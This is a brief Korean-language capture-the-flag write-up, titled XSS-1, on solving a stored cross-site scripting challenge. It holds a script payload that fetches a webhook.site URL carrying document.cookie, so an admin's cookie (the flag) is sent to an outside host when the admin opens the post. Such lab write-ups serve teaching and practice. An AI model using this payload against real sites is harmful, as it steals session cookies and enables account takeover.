


## XSS-1


스크립트를 넣었을 때 alert 구문이 제대로 작동하는 것을 확인하였다.

```html
<script>
fetch("https://webhook.site/81193856-a8a7-4116-bc58-e601f0796d51/?flag=" + encodeURIComponent(document.cookie))
</script>
```

위와 같이 payload를 짜고 관리자를 통해 해당 게시물을 읽은 결과 아래와 같이 flag를 획득할 수 있었다.


